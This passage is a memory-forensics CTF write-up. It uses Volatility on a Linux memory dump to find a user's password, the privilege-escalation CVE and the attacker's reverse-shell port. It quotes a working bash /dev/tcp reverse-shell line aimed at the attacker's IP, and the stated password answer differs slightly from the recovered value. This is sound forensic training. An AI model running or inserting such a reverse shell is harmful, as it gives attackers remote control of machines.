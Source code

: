 We dump `/run/shm` in our local folder `fsrec`:

```
python vol.py --plugins=profiles/ --profile=LinuxUbuntu_3_13_0-32-genericx64 -f workdir/file.bin linux_tmpfs -S 4 -D fsrec
```

In the file `password.bak` we find the password of `carl`.

```
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
carl:Thisiscarlsecurepassword:1000:1000:carl,,,:/home/carl:/bin/bash
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
```

8. What is the password of the unprivileged account?

Answer `Thisiscarlssecurepassword`

9. What is the CVE-ID of the exploit used to gain root access?

The answer was `CVE-2015-1328` this was found because of the `cve.c`. After we google a line
from it `system("rm -rf /tmp/ns_sploit /tmp/ofs-lib.c") cve` we find the actual exploit on `exploit-db.com`.

10. Provide the link of the exploit from exploit-db.com.

The link was `https://www.exploit-db.com/exploits/37292`.

11. What port was used on the attacker's local machine for the reverse shell? 

For this question we conduct a search with yara scan looking for the attacker's ip address in order to with a concatenation
with a port:

```
python vol.py --plugins=profiles/ --profile=LinuxUbuntu_3_13_0-32-genericx64 -f workdir/file.bin linux_yarascan -Y "192.168.1.194"
```

Then we look into the memory and there it is `12035`.

```
0x7fee52d84504  00 00 00 00 30 44 d8 52 ee 7f 00 00 3e 26 20 2f   ....0D.R....>&./
0x7fee52d84514  64 65 76 2f 74 63 70 2f 31 39 32 2e 31 36 38 2e   dev/tcp/192.168.
0x7fee52d84524  31 2e 31 39 34 2f 31 32 30 33 35 20 30 3e 26 31   1.194/12035.0>&1
0x7fee52d84534  00 00 00 00 31 00 00 00 00 00 00 00 41 00 00 00   ....1.......A...
```

12. What other payload did the attacker try, but was unsuccesful?

The payload was `bash -i >& /dev/tcp/192.168.1.194/12035 0>&1`.

From previous attempts we've seen that there was an apache2 server which means there should be a file where requests will be logged.
In this case the file was `access.log`:

```
python vol.py --plugins=profiles/ --profile=LinuxUbuntu_3_13_0-32-genericx64 -f workdir/file.bin linux_find_file -F "/var/log/apache2/access.log"
Volatility Foundation Volatility Framework 2.6.1
Inode Number                  Inode File Path
---------------- ------------------ ---------
         1444642 0xffff88007b9ae488 /var/log/apache2/access.log
```

